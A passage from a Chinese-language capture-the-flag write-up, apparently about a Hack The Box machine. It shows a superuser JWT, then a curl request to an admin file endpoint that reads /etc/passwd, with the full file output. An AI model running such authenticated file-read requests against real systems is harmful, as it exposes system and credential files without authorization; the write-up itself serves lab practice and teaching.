 ```json
{
  "access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzE0Mzk4NzM0LCJpYXQiOjE3MTM3MDc1MzQsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ._AtjVo_lHDfaLCF4shtgDCXcUmcdx5zkeCHmypnXVps",
  "token_type": "bearer"
}
```

修改 `Modify Header` 插件的 `Authorization` 头为 `admin` 账号的 `JWT`

## `/admin/file` 接口

发现了一个 `POST /api/v1/admin/file` 的接口，我们尝试读取文件

```bash
curl -X 'POST' \
'http://10.10.11.161/api/v1/admin/file' \
  -H 'accept: application/json' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzE0Mzk3MjkyLCJpYXQiOjE3MTM3MDYwOTIsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.Xq2STmqVRb6y_HYpyDpkqprpQ6wvuSZ1KF7-QETRsu0' \
  -H 'Content-Type: application/json' \
  -d '{
  "file": "/etc/passwd"
}'
```

```json
{
  "file": "root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:103:106::/nonexistent:/usr/sbin/nologin\nsyslog:x:104:110::/home/syslog:/usr/sbin/nologin\n_apt:x:105:65534::/nonexistent:/usr/sbin/nologin\ntss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false\nuuidd:x:107:112::/run/uuidd:/usr/sbin/nologin\ntcpdump:x:108:113::/nonexistent:/usr/sbin/nologin\npollinate:x:110:1::/var/cache/pollinate:/bin/false\nusbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin\nsshd:x:112:65534::/run/sshd:/usr/sbin/nologin\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\nhtb:x:1000:1000:htb:/home/htb:/bin/bash\nlxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false\n"
}
```

发现是一个能读取文件的接口
